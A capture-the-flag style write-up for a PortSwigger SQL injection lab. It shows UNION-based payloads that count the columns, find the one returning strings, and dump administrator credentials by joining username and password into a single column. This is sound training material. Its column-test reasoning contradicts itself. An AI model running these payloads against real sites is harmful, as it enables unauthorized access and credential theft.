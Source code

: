 # Write-up: SQL injection UNION attack, retrieving multiple values in a single column
Lab-Link: <https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column>  
Difficulty: PRACTITIONER  
 

## Lab description

![alt text](<img/1.png>)

## Steps

### Enumeration

To find the number of columns returned by the query, we can use the `UNION` method. We will start with `UNION SELECT NULL` and increase the number until we get an error. This will give us the number of columns returned by the query. Using this we doesn't get error at `UNION SELECT NULL, NULL`, which means the number of columns is 2.

The link is `/filter?category=Lifestyle'+UNION+SELECT+NULL,NULL--`

sqli payload is
```sql
' UNION SELECT NULL, NULL--
```

Now, we need to check if both columns can return string or not. We can use the following link to find the column.
`Lifestyle'+UNION+SELECT+NULL,'abc'--` and `Lifestyle'+UNION+SELECT+'abc',NULL--`. The first link gives error and the second link responds successfully. So, the second column returns string.

### Solution

Now, we need to find the credentials of the administrator by concatenating both column values in single column. In Oracle, we can use `||` to concatenate the values. `~` is used to seperate the username and password.
`/filter?category=Lifestyle'+UNION+SELECT+NULL,username||'~'||password+FROM+users--`

This gives the username and password for `administrator` of the user. And we can login as administrator.

Hence, the lab is sovled.

![alt text](img/2.png)